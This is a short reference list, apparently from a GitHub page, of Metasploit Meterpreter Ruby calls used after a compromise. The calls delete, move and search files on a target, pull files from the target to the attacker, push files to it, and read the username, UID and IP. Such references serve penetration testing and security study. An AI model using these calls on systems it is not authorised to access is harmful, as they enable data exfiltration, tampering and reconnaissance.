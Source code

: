 - **delete remote file (windows)**

      client.fs.file.rm("c:\\oldman\\file.txt")

- **rename file**

      client.fs.file.mv("C:\\oldname","C:\\newname")

- **check if file its writeable**

      client.fs.file.writeable?("C:\\Users\\pedro\\Desktop")

- **make a directory named "oldman"**

      client.fs.dir.mkdir("c:\\oldman")

- **delete remote directory**

       client.fs.dir.delete("c:\\oldman")

- **Search for the specified file**<br />
'This will search for hacking.txt in the oldman directory and its **subdirectories**'

      client.fs.file.search("c:\\oldman","hacking.txt")

- **Check if specified file exists**

      client.fs.file.exists?("c:\\oldman\\file.txt")

- **Download file from target system**<br />
'This will download dum.txt from taget and save it to attackers root directory'

      client.fs.file.download("/root/dum.txt","%temp%\\dum.txt")

- **upload file to target system**<br />
'This will upload dum.txt from attacker system and save it to target root directory'

      client.fs.file.upload("C:\\Users\\pedro\\Desktop\\dum.txt","/root/dum.txt")

- **random filename (8 caracters)**

      rand = Rex::Text.rand_text_alpha(8)+".log"
      print_good("#{rand} file created")

- **Read target environment variables to extact username**

      user_name = client.fs.file.expand_path("%USERNAME%")
      print_good("target user name: #{user_name}")

- **This method will list all active sessions in the framework instance.**

      session.list

- **Get current working directory**

      client.fs.dir.pwd

- **Get Client UID**

      client.sys.config.getuid

- **Get target system ip address**

      client.session_host
